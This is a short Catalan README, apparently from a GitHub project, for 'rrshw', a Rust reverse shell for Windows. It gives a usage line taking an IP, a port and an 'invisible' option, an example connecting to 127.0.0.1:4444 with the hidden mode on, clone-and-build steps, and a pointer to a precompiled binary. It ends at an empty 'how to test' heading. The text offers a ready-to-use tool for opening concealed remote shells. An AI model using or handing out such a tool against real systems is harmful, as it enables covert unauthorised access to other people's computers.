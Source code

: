 ## rrshw - Rust Reverse Shell for Windows 
Que és una Reverse Shell? (https://en.wikipedia.org/wiki/Shell_shoveling)[https://en.wikipedia.org/wiki/Shell_shoveling].

Utilització: **rrshw.exe [ip] [port] [invisible(y/n=default)]**

Exemple: **rrshw.exe 127.0.0.1 4444 y**

**Complilar a partir del codi font**
git clone https://github.com/jc4st3lls/rrshw.git

cd rrshw

cargo build --release 

(a la carpeta bin hi ha una versió compilada)

**Com provar**
